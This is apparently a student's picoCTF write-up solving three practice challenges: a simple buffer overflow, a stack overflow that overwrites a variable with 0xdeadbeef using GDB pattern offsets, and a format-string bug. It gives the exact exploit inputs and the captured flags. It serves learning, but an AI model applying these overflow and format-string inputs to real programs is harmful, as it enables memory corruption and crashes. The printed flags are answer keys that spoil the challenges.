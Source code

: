 # 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Connect using:
nc saturn.picoctf.net 49815

## Solution:

- on opening the .c file i first read that the maximum input we could give was of 64 characters.
  ![bufferoverflowsnip](https://github.com/user-attachments/assets/b7a79b9c-6b94-42c6-ba3f-abc275305934)

- So...just for trial since it is called buffer OVERFLOW, i entered more that 64 characters to see what happens. i entered 70 characters and got the flag :))
```bash 
   rochelle@DESKTOP-IF15GUC:~$ nc saturn.picoctf.net 49815
   Input: 1234567890123456789012345678901234567890123456789012345678901234567890
   picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

***
# 2. Clutter overflow

> Clutter, clutter everywhere and not a byte to use.

## Solution:

- on opening the .nc file, i get 
```bash
     ______________________________________________________________________
     |^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
     | ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
     |^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
     | ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
     |^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
     | ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
     |^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
     | ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
     |^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
     .-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
     |     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
     | ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
     |'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
     |\|______|===============|________________|/|""""""""""""""""""""""""""
     " ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
     ""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
     """"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
     """""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
     My room is so cluttered...
     What do you see?
```
- I type in anything and get error `code == 0x0 code != 0xdeadbeef :(`
- In the code, we can see `#define SIZE 0x100 #define GOAL 0xdeadbeef` and `gets(clutter);` meaning we can use buffer overflow
- We need the code we enter to be equal to `deadbeef`
- I opened the code in GDB
- I created a pattern using `pattern_create` and then ran the file, pasting a large pattern in it (pasted 500 characters)
- i got segmentation fault
```bash
  Program received signal SIGSEGV, Segmentation fault.
  0x00000000004007c0 in main ()
```
- I check the registers 
``` bash
 info registers rbp rip
 rbp            0x3425416525414925  0x3425416525414925
 rip            0x4007c0            0x4007c0 <main+249>
```
- Searching for the pattern string at `0x3425416525414925` i get string `%IA%eA%4`
- This pattern is at offset 272. So we can adjust the bytes we enter and thus get the 0xdeadbeef. We need 264 characters precisely (272-deadbeef)
- 0xdeadbeef in little edian format is `\xef\xbe\xad\xde` so after 264 characters i type this also in
this gave me
```bash
   code == 0xdeadbeef: how did that happen??
   take a flag for your troubles
   picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```
## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:
- `gets` function is vulnerable to buffer overflow, so its presence in a code gives us a clue
- `pattern_create` in GDB creates a character set of how many ever character u wish to input in it
- `$rbp` register is base pointer or frame pointer in x86-64 architecture assembly. It creates a stable reference point for a function's stack frame even when $rsp changes.
- Little-endian and big-endian are two methods for storing the bytes in the memory. Big-endian stores the most significant byte (the "big end") at the lowest memory address, while little-endian stores the least significant byte (the "little end") first (stores in reverse). 

## Notes:

- I had to install PEDA since my system did not have that
# 3. Format string 0

> Can you use your knowledge of format strings to make the customers happy?

## Solution:

- On opening the netcat i get offered a menu. If i enter Breakf@st_Burger, i get error. 
- I looked at the hint, it is telling me to research about format specifires.
- There are various kinds of format specifiers like %d, %s etc. This makes me realised that certain options in the menu have format specifiers in them!!
- In the first menu, `Gr%114d_Cheese` has format specifier `%114d` and in the second one, `Cla%sic_Che%s%steak` has specifier `%s`.
```bash
  Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
  Here comes the first customer Patrick who wants a giant bite.
  Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
  Enter your recommendation: Gr%114d_Cheese
  Gr                                                                                                           4202954_Cheese
  Good job! Patrick is happy! Now can you serve the second customer?
  Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
  Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
  Enter your recommendation: Cla%sic_Che%s%steak
  ClaCla%sic_Che%s%steakic_Che
  picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```
## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

## Concepts learnt:
- The different kinds of format specifiers are %s (this is vulnerable), %d (for integers), %c, etc.
